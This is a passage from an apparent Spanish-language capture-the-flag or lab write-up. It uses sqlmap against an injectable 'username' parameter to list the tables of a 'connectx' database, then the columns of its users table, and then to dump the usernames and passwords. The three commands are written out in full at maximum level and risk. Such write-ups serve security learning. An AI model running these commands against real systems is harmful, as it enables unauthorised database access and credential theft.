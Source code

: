 Entre todas las bases de datos que nos reporta nos llamará la atención **connectx**.

![](<../assets/images/posts/2025-03-18-connectx/Pasted image 20250318173344.png>)
##### Tables de la base de datos connectx

Mostraremos todas las tablas de la base de datos **connectx** gracias al siguiente comando.

```bash
sqlmap -r req.req -p "username" -D connectx --tables --batch --level 5 --risk 3
```

Nos llamará la atención la tabla **users**.

![](<../assets/images/posts/2025-03-18-connectx/Pasted image 20250318174237.png>)
##### Columnas de la tabla users

Gracias a la siguiente instrucción mostraremos las columnas de la tabla **users**.

```bash
sqlmap -r req.req -p "username" -D connectx -T users --columns --batch --level 5 --risk 3
```

Nos quedaremos con la columna **password** y **username**.

![](<../assets/images/posts/2025-03-18-connectx/Pasted image 20250318174309.png>)
##### Información de la tabla users

Finalmente, dumpearemos la información de la tabla **users** gracias al siguiente comando.

```bash
sqlmap -r req.req -p "username" -D connectx -T users -C username,password --dump --batch --level 5 --risk 3
```
